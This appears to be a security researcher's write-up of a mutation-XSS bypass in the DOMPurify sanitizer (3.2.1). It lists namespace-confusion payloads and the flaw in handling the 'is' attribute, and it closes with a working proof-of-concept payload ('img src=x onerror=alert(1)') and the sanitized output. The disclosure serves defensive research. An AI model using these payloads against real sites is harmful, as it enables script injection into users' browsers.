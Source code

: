 So we can use this to have various types of namespace confusions (note that the SVG ones are applicable to older versions where HTML integration ponits were allowed):

-   From HTML into SVG or MathML:
    -   `<math><foo-test><mi><li><table><foo-test><li></li></foo-test>a<a>`
    -   `<svg><a><foreignObject><p><table><a><li></li></a><a>`
-   From SVG to MathML:
    -   `<math><mi><li><table><mi><li>t</mi></li></mi></math><a><svg>`
    -   `<math><foo-test><mi><li><table><foo-test><li></li></foo-test>a<svg><title></title></svg>`
-   From MathML to SVG: 
    -   `<svg><a><foreignObject><p><table><a><li></li></a><math>`
-   From SVG to HTML:
    -  ` <svg><a><foreignObject><li><table><a><li></table></li></a></a><title><svg><a alt="</title><img>">`
-   From MathML to HTML:
    -   `<math><foo-test><mi><li><table><foo-test><li></li></foo-test>a</table></li></mi><a>`

But as mentioned before, this is not enough to have a bypass. Some regex checks will delete [attributes](https://github.com/cure53/DOMPurify/blob/3.2.1/src/purify.ts#L1333), [raw_data](https://github.com/cure53/DOMPurify/blob/3.2.1/src/purify.ts#L1062-L1063) elements, or [comments](https://github.com/cure53/DOMPurify/blob/3.2.1/src/purify.ts#L1079) if the content is considered dangerous.

# The *`is`* Attribute

I was reading the [official solution write-up](https://jorianwoltjer.com/blog/p/hacking/mutation-xss) for a small mXSS challenge created by [Jorian](https://twitter.com/J0R1AN), and they discussed an interesting topic, where the [`is` attribute](https://html.spec.whatwg.org/#attr-is) cannot be [deleted](https://sonarsource.github.io/mxss-cheatsheet/#is). Which got me wondering how DOMPurify handles such behavior. When looking at the code, the library was already aware of this and had [implemented mitigation](https://github.com/cure53/DOMPurify/blob/3.2.1/src/purify.ts#L845). But there was a small mistake [introduced](https://github.com/cure53/DOMPurify/commit/79d57d6465c88101d512e06377b6e6babe8a11c2) in 2021. That caused the `forceRemove` function to be obsolete if the `is` attribute is in the `ALLOWED_ATTR` array, allowing arbitrary content in the `is` attribute if allowed in the configuration.

# The Bypass
All that is left to do is to combine those two topics
```

DOMPurify.sanitize(
'<math><foo-test><mi><li><table><foo-test><li></li></foo-test>a<a><style><!--</style>a<foo-bar is="--><img
src=x onerror=alert(1)>">',
    {
        ADD_ATTR: ['is'],
        CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /^foo-/,
    },
});
>>> <math><foo-test><mi><li><foo-test><li></li></foo-test><a><style><!--</style>a<foo-bar is="--><img src=x
onerror=alert(1)>"></foo-bar></a><table></table>a</li></mi></foo-test></math>
```